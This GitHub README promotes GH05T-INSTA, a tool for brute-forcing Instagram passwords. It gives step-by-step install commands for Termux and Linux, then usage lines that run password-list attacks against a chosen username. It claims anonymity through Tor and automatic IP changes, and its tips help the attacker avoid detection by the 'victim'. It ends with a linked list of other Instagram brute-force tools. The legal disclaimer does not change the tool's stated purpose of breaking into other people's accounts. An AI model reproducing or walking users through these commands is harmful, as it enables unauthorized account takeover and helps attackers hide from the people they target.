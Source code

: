 <img src="https://media.tenor.com/qMER41oNWx8AAAAC/youve-been-hacked-gregory-brown.gif">

<b>Main Menu</b>
<img src="https://f.top4top.io/p_2591gdccl0.jpg">

### Tool Installation

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./venom.sh
```

`Choose : (01) Tool Installation`

### Run Tool

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./setup.sh
```

```
./import.sh
```

```
pip install -r requirements.txt
```

```
./venom.sh
```

`Choose : (02) Run Tool`

<img src="https://j.top4top.io/p_2590zeytt0.jpg" alt="GH05T-HUNTER5">

<!--
`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

<img src="https://a.top4top.io/p_258969ou50.jpg">

{MORE LINKS}

## Notice

<b><i>Please do not clone or download this tool because we are trying to fix the problems and we don't know how many possibilities there are to solve these problems.</i><b>

<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA"><br>
<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 7.01 <p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
chmod +x *
```
```
./install.sh
```

<b>or</b>

```
python install.py
```

<b>Start</b>

```
gh05t
```

```
 Run Tor
```


## Linux Installation 3.01 

`Install Home` 

`$ cd home/`

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
```
./gh05t --help
```

<b>or</b>

```
./gh05t
```

<b>Linux Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.linux/README.md">Click This</a></b>

<b>Report : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/issues/new?assignees=&labels=&template=bug_report.md&title=">Issues</a></b>

## Termux Installation 3.01 

```
pkg update && pkg upgrade
```
```
pkg install tor -y
```
```
pkg update tor -y 
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd 
```
```
rm -rf GH05T-INSTA
```

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

## This Tool is not working properly Please wait we are trying to solve this problem 

<img src="https://user-images.githubusercontent.com/123439847/214219519-bea6426e-866f-42a9-8850-e8ab340020cc.png">

<b> Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.gh05t/README.md">Link</a></b>

### Notice

`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

```bash
read -p 'Enter your name : ' user
gh05t --user $user --pass 18
```
### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

### Banner

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA"><br>

```
     ██████╗ ██╗  ██╗ ██████╗ ███████╗████████╗  
    ██╔════╝ ██║  ██║██╔═████╗██╔════╝╚══██╔══╝ 
    ██║  ███╗███████║██║██╔██║███████╗   ██║     
    ██║   ██║██╔══██║████╔╝██║╚════██║   ██║     
    ╚██████╔╝██║  ██║╚██████╔╝███████║   ██║     
     ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝   ╚═╝      
       ██╗███╗   ██╗███████╗████████╗ █████╗     
       ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗    
       ██║██╔██╗ ██║███████╗   ██║   ███████║    
       ██║██║╚██╗██║╚════██║   ██║   ██╔══██║    
       ██║██║ ╚████║███████║   ██║   ██║  ██║    
       ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝    


  ```


### INSTAGRAM BRUTEFORCE

##### Link ( 1 ) : https://github.com/MR-S74RK/ZHOI-INSTA

##### Link ( 2 ) : https://github.com/dark-player/instabrute.github.io

##### Link ( 3 ) : https://github.com/hackerxphantom/xinsta_brute

##### Link ( 4 ) : https://github.com/SamueleAmato/instaForce

##### Link ( 5 ) : https://github.com/eternalodball/insbrute

##### Link ( 6 ) : https://github.com/Bitwise-01/Instagram-

##### Link ( 7 ) : https://github.com/chinoogawa/instaBrute

##### Link ( 8 ) : https://github.com/importCTF/Instagram-Hacker

##### Link ( 9 ) : https://github.com/xHak9x/instabrute

##### Link ( 10 ) : https://github.com/TermuxHackz/instagram-bruteforcer



<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>
-->

### INSTA BRUTEFORCE TOOLS

#### beginner-friendly 

<table>
  <tr>
    <th>Tool Name</th>
    <th>Tool Link</th>
    <th>System</th>
    <th>Command</th>
  </tr>
  <tr>
    <td>ZHOI-INSTA</td>
    <td><a href="https://github.com/MR-S74RK/ZHOI-INSTA">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ZHOI-INSTA.md">INSTALLATION</a></td>
  </tr>
  <tr>
    <td>instagram-crash</td>
    <td><a href="https://github.com/kucing-hitam/instagram-crash">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-crash.md">INSTALLATION</a></td>
  </tr>
  <tr>
   <td>Brutegram</td>
    <td><a href="https://github.com/Err0r-ICA/Brutegram">Link</a></td>
     <td>Termux</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Brutegram.md">INSTALLATION</a></td>
  </tr>
<tr>
   <td>instashell</td>
    <td><a href="https://github.com/tiptoettt/instashell">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instashell.md">INSTALLATION</a></td>
   </tr>
<tr>
   <td>insta-hack</td>
    <td><a href="https://github.com/IncredibleHacker/insta-hack">Link</a></td>
    <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insta-hack.md">INSTALLATION</a></td>
   </tr>
<tr>
   <td>instainsane</td>
    <td><a href="https://github.com/umeshshinde19/instainsane">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instainsane.md">INSTALLATION</a></td>
   </tr>
<tr>
   <td>xinsta_brute</td>
    <td><a href="https://github.com/hackerxphantom/xinsta_brute">Link</a></td>
    <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/xinsta_brute.md">INSTALLATION</a></td>
 </tr>
<tr>
   <td>SocialMediaHackingToolkit</td>
    <td><a href="https://github.com/RedKatz/SocialMediaHackingToolkit">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/SocialMediaHackingToolkit.md">INSTALLATION</a></td>
  </tr>
<tr>
   <td>insbrute</td>
    <td><a href="https://github.com/eternalodball/insbrute">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insbrute.md">INSTALLATION</a></td>
  </tr>
<tr>
   <td>Instagram-</td>
    <td><a href="https://github.com/Bitwise-01/Instagram-">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-.md">INSTALLATION</a></td>
  </tr>
<tr>
   <td>instaBrute</td>
    <td><a href="https://github.com/chinoogawa/instaBrute">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instaBrute.md">INSTALLATION</a></td>
   </tr>
<tr>
   <td>Instagram-Hacker</td>
    <td><a href="https://github.com/importCTF/Instagram-Hacker">Link</a></td>
     <td>Kali User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-Hacker.md">INSTALLATION</a></td>
   </tr>
<tr>
   <td>instabrute</td>
    <td><a href="https://github.com/xHak9x/instabrute">Link</a></td>
   <td>Termux User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instabrute.md">INSTALLATION</a></td>
<tr>
   <td>instagram-bruteforcer</td>
    <td><a href="https://github.com/TermuxHackz/instagram-bruteforcer">Link</a></td>
     <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-bruteforcer.md">INSTALLATION</a></td>
   </tr>
<tr>
   <td>ighack</td>
    <td><a href="https://github.com/noob-hackers/ighack">Link</a></td>
     <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ighack.md">INSTALLATION</a></td>
  </tr>
<tr>
</table>

### GH05T-INSTA {BRUTEFORCE}

$ `apt install git`

$ `git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA`

$ `cd GH05T-INSTA`

$ `install.sh`

$ `gh05t`

<b>COMMAND : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.gh05t/README.md">LINK</a></b>
```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```
